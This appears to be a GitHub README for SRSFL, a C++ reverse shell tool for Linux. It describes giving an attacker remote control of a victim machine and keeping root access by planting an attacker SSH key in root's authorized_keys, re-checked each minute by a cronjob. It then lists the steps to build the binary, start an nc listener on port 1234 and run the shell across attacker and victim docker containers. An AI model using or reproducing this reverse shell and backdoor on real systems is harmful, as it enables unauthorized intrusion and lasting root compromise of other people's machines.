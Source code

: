 # SRSFL
Simple Reverse Shell For Linux written is a minimalist yet powerful tool designed for remote access to Linux systems. Written in C++.

* Reverse Shell: SRSFL enables remote access to a target Linux system by establishing a reverse shell connection. This allows an attacker to control the victim system remotely.

* Persistence: SRSFL ensures persistence on the target system by adding an SSH key to the root user's authorized_keys file and checking its existence every minute using a cronjob. This ensures that even if the system is restarted, the attacker can regain access without the need for manual intervention.

### Setup:

(`docker-compose up -d`)

### Instruction:

(`./setup.sh`) to insert attacker ssh key and ip.

(`make`) to compile the reverse shell binary.

(`docker exec -it attacker_container /bin/bash`) to get shell on attack container.


(`nc -lvp 1234`) to enable the listener.

(`docker exec -it victim_container /bin/bash`) to get shell on victim container.

(`cd code; ./reverseShell`) - to run reverse shell.
